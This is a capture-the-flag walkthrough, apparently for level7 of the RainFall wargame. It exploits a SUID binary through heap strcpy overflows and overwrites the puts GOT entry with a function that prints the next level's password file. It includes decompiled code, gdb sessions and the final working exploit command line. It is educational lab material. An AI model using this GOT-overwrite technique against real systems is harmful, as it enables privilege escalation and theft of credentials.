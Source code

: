 # Level7

# Tools

# Walkthrough
The home of level7 contains a binary, `level7`. As usual, it has the SUID bit set and is owned by `level8`. 

We decompile it using `dogbolt`, and we have two interesting functions, as well as a global variable:

```c
int m()
{
  time_t v0; // eax

  v0 = time(0);
  return printf("%s - %d\n", c, v0);
}

extern char c;

int main(unsigned int v2)
{
    struct_0 *v0;  // [bp-0xc]
    struct_0 *v1;  // [bp-0x8]
    char v3;  // [bp+0x8]

    v1 = malloc(8);
    v1->field_0 = 1;
    v1->field_4 = malloc(8);
    v0 = malloc(8);
    v0->field_0 = 2;
    v0->field_4 = malloc(8);
    strcpy(v1->field_4, *((int *)(*((int *)&v3) + 4)));
    strcpy(v0->field_4, *((int *)(*((int *)&v3) + 8)));
    fgets(&c, 68, fopen("/home/user/level8/.pass", "r"));
    puts("~~");
    return 0;
}
```

We want to look for the address and `m`:
```
objdump -t level7
...
080484f4 g     F .text	0000002d              m
...
```

Also, we notice a `puts` call:
```
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
```

Let's figure out the address of `puts` in the GOT:
We `disassemble` the address `0x8048400`, to get to the function tremplin:
```
(gdb) disass 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    DWORD PTR ds:0x8049928
   0x08048406 <+6>:	push   0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
```
Upon getting in the function tremplin, the code would jump to `0x8049928`, stored in the GOT:
```
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x08048406
```
We can also get that address with `info functions` in GDB.
`0x8049928` is the address we want to overwite to take control of the programme execution. Now let's find a way to do so!

We noticed, thanks to the decompilation, that the program required two arguments. As `strcpy` doesn't check if what's being written to its buffer fits inside before copying it, we can abuse it to crash the programme.
```
level7@RainFall:~$ ./level7 AAAABBBBCCCCDDDDEEEE a
~~
level7@RainFall:~$ ./level7 AAAABBBBCCCCDDDDEEEEF a
Segmentation fault (core dumped)
```
As we can see, when we added the `F`, the program crashed.

Also, we can make the programme crash with the second argument:
```
(gdb) r AAAABBBBCCCCDDDDEEEE 0000111122223333444455556666
Starting program: /home/user/level7/level7 AAAABBBBCCCCDDDDEEEE 0000111122223333444455556666

Program received signal SIGSEGV, Segmentation fault.
0xb7e90ba7 in fgets () from /lib/i386-linux-gnu/libc.so.6
(gdb) backtrace
#0  0xb7e90ba7 in fgets () from /lib/i386-linux-gnu/libc.so.6
#1  0x080485f0 in main ()
(gdb) r AAAABBBBCCCCDDDDEEEEF a
Starting program: /home/user/level7/level7 AAAABBBBCCCCDDDDEEEEF a

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8f23 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) backtrace
#0  0xb7eb8f23 in ?? () from /lib/i386-linux-gnu/libc.so.6
#1  0x080485c2 in main ()
```
Thanks to `backtrace`, and the fact that two different conditions make us segfault, we know that we have two different segfaults vulnerabilities.
By digging on the topic, we understand that the first `strcpy` will give us the flexibility to write **anywhere** we want (where the `FFFF` are), and the second let's us write **whatever** we want.
Here, we confirm that we succesfully hijacked the execution flow by writing 0s to EIP, by replacing the content stored at address `0x8049928`, `puts`'s address:
```
(gdb) run $(python -c 'print "AAAABBBBCCCCDDDDEEEE\x28\x99\x04\x08"') 000011112222
Starting program: /home/user/level7/level7 $(python -c 'print "AAAABBBBCCCCDDDDEEEE\x28\x99\x04\x08"') 000011112222

Program received signal SIGSEGV, Segmentation fault.
0x30303030 in ?? ()
(gdb) info registers
eax            0x80486eb	134514411
ecx            0xbffff8db	-1073743653
edx            0x80486e9	134514409
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff6ac	0xbffff6ac
ebp            0xbffff6d8	0xbffff6d8
esi            0x0	0
edi            0x0	0
eip            0x30303030	0x30303030    <------ 0000 here
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

We eventually pass the address of `m` as the second argument, and get our password.
Make sure to run it **outside** of GDB, as to run `fgets` the SUID bit needs to be set, and GDB won't run it with the file owner's privileges as it disables SUID!

```bash
./level7 $(python -c 'print "AAAABBBBCCCCDDDDEEEE\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```
